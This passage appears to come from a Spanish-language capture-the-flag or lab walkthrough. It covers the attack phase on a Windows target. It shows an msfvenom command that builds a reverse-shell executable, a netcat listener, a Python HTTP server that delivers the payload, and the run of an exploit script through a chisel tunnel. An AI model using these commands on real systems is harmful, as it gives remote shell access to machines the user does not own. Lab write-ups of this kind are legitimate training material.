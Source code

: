 # Creación del pyload con mfsvenom

Con el puerto accesible ahora si tenemos que crear la reverse shell que es un parametro que necesita el script de Python 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=Yout_Ip LPORT=PORT -f exe -o rev.exe
```

![paste](./images/36.jpeg)

Con esto ya tenemos todo lo necesario, puerto 9512 que esta conectado a través de manera local de nuestro lado por el puerto 9512 de nuestra maquina gracias a chisel 
# Realizando el ataque 

Primero tenemos que ponernos en escucha 

```bash
rlwrap nc -lvpn 443
```

Después donde tenemos el .exe creado por msfvenom ejecutaremos un servidor de Python 

```bash 
python3 -m http.server 80
```

y con estos dos ejecutándose ahora si ejecutaremos el exploit.py 

```bash
python3 exploit.py 127.0.0.1 10.10.16.4 rev.exe 
```

Capturas del ataque:
